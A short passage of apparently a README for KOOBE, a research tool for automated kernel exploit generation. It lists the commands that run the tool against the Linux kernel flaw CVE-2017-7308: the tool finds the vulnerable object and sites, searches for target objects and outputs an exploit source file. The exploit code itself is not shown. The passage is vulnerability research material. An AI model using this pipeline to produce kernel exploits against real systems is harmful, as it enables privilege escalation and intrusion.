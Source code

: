 
# Run KOOBE against CVE-2017-7308
```
// setup env
source koobe/bin/activate
cd aeg-analysis

// Create a new project named p0
python main.py create -p p0 --vmlinux ../s2e/images/.tmp-output/linux-4.9.3-x86_64/linux-4.9.3/vmlinux -c testcases/CVE-2017-7308/packet.syz -w testcases/CVE-2017-7308 -i debian-9.2.1-x86_64
// identify the vulnerable object
python main.py run -p p0 --findVuln
// identify all the vulnerability sites
python main.py run -p p0 --findSites
// Search for target objects matching the capability
// It might take a while...
python main.py run -p p0 --findTarget
// Generate Exploit
python main.py run -p p0 --exploit
```

Now we should have an exploit: `testcases/CVE-2017-7308/exp\_packet\_sock\_xmit.c`.
Note that not all exploit strategies are implemented, you may see failures on generating the final exploit.

## Step-by-step tutorial
For more details, please check [this](STEPS.md).
